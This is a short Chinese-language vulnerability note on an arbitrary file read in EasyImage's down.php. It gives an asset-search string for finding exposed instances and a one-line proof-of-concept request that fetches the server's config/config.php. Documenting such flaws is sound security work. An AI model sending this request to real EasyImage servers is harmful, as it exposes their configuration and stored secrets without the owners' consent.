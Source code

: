 # EasyImage down.php 任意文件读取漏洞

## 漏洞描述

EasyImage down.php 文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

<a-checkbox checked>EasyImage</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="EasyImage-简单图床"</a-checkbox></br>

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1678874513039-c454fc7f-e231-4417-b7a9-ebadfa12d0ba.png)

验证POC

```plain
/application/down.php?dw=./config/config.php
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1678874587131-e65d3f26-f9b1-4ada-9885-527a8627644b.png)